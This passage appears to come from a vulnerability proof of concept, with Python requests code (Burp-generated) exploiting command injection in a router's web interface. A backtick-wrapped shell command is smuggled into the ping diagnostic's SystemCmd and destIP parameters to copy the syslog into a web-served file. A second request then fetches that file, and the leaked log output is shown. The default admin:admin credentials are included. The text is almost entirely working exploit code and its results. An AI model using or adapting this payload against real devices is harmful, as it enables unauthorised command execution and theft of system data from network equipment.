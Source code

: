 ```
burp0_headers = {"Authorization": "Basic YWRtaW46YWRtaW4=", "Accept-Language": "en-US", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://192.168.1.1/apply.cgi?current_page=Main_Analysis_Content.asp&next_page=Main_Analysis_Content.asp&group_id=&modified=0&action_mode=+Refresh+&action_script=&action_wait=&first_time=&preferred_lang=CN&SystemCmd=ping+-c+5+1.1.1.1%60cat+..%2Ftmp%2Fsyslog.log+%3E+a.asp%60&firmver=3.0.0.4&cmdMethod=ping&destIP=1.1.1.1%60cat+..%2Ftmp%2Fsyslog.log+%3E+a.asp%60&pingCNT=5", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)


#import requests

burp0_url = "http://192.168.1.1:80/a.asp"
burp0_cookies = {"notification_history": "0,0,0,0,0,0,0,0", "hwaddr": "52:54:00:12:34:57", "clock_type": "1"}
burp0_headers = {"Authorization": "Basic YWRtaW46YWRtaW4=", "Accept-Language": "en-US", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
a=requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

print(a.text)





#ping -c 5 1.1.1.1`cat ../tmp/syslog.log > a.asp`

```


#### 结果
```
Jan  1 00:00:09 syslogd started: BusyBox v1.17.4
Jan  1 00:00:09 kernel: klogd started: BusyBox v1.17.4 (2015-01-10 20:55:27 CST)
Jan  1 00:00:09 kernel: [    0.137102] PCI: Enabling device 0000:00:0a.2 (0000 -> 0001)
Jan  1 00:00:09 kernel: [    0.158799] firmadyne: Cannot register character device: gpio, 0xfc, 0x0!
Jan  1 00:00:09 kernel: [    0.159619] firmadyne: Cannot register character device: watchdog, 0xa, 0x82!
Jan  1 00:00:09 kernel: [    0.159825] firmadyne: Cannot register character device: wdt, 0xfd, 0x0!
Jan  1 00:00:09 kernel: [    0.201348] PCI: Enabling device 0000:00:12.0 (0000 -> 0002)
Jan  1 00:00:09 kernel: [    0.593290] PCI: Enabling device 0000:00:0a.1 (0000 -> 0001)
Jan  1 00:00:09 kernel: [    0.602475] [nandsim] warning: read_byte: unexpected data output cycle, state is STATE_READY return 0x0
Jan  1 00:00:09 kernel: [    0.602731] [nandsim] warning: read_byte: unexpected data output cycle, state is STATE_READY return 0x0
Jan  1 00:00:09 kernel: [    0.602966] [nandsim] warning: read_byte: unexpected data output cycle, state is STATE_READY return 0x0
Jan  1 00:00:09 kernel: [    0.603217] [nandsim] warning: read_byte: unexpected data output cycle, state is STATE_READY return 0x0
Jan  1 00:00:09 kernel: [    0.603454] [nandsim] warning: read_byte: unexpected data output cycle, state is STATE_READY return 0x0
Jan  1 00:00:09 kernel: [    0.603780] [nandsim] warning: read_byte: unexpected data output cycle, state is STATE_READY return 0x0
Jan  1 00:00:09 kernel: [    0.605400] flash size: 128 MiB
Jan  1 00:00:09 kernel: [    0.605497] page size: 512 bytes
Jan  1 00:00:09 kernel: [    0.605587] OOB area size: 16 bytes
Jan  1 00:00:09 kernel: [    0.605682] sector size: 16 KiB
Jan  1 00:00:09 kernel: [    0.605787] pages number: 262144
```